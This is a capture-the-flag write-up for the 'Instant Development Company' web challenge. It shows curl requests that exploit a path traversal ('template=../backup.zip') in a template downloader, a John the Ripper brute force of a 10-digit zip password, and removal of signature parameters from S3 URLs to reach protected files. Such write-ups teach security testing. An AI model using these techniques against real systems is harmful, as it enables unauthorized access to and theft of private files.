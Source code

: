# Instant Development Company

The source of https://instant-development-company.secchallenge.crysys.hu/ reveals a link to the /debug folder.

```
...
<body>
    <a href="/" class="menu-button" style="text-align: justify;">Main page</a>
    <a href="/review" class="menu-button" style="text-align: justify;">Leave feedback</a>
    <a href="/debug" class="menu-button" style="text-align: justify;"></a>
...
```

There are a couple of potential attack points in that page. One is a template file viewer. Let's try that on debug.html with curl:

```shell
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=debug.html'
...
    <!-- [AUTOREMOVE] AN: I've created a backup of our contracts for archival purposes. It should be in a backup.zip file in the root directory. -->
    <!-- [AUTOREMOVE] AN: Unfortunately I kinda forgot the password, but I do remember that it only had numbers in it and it was 10 digits long. -->
...
```

Bingo. There has to be a backup.zip somewhere with a password of 10 digits. Let's try downloading the zip with the template downloader again:

```shell
> curl 'https://instant-development-company.secchallenge.crysys.hu/download/templates'  --data-raw 'template=../backup.zip' > backup.zip
```
Now run John the ripper to get the password:
```shell
> john --incremental=digits --min-length=10 --max-length=10 hash.txt
```

Unzip the file
```shell
> unzip -P REDACTED backup.zip
```

We find a file containing a bunch of S3 download links in the form of:
```
...
https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
...
```

But we cannot download them:
```shell
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000&Expires=1635928981&Signature=00000000000000_0000000000000%3d
<?xml version="1.0" encoding="UTF-8"?>
<Error><Code>AccessDenied</Code><Message>Request has expired</Message><Expires>2021-10-13T20:41:40Z</Expires><ServerTime>2022-03-16T06:57:35Z</ServerTime><RequestId>7D3PB49BH510BXPD</RequestId><HostId>kpPQtioPMo0Tq+sY0b5wg5mlH+ZmJc/vwT7AAKwFrHSaxGLGt0cosQ1YwAqm2sAVfosziX8Tric=</HostId></Error>
```

Try removing the expires and signature part from the url:

```shell
> curl https://instant-development-company.s3.eu-central-1.amazonaws.com/00000000-0000-0000-0000-000000000000?AWSAccessKeyId=00000000000000000000
...bunch of text...
```
We just need to download all files and filter for the flag.

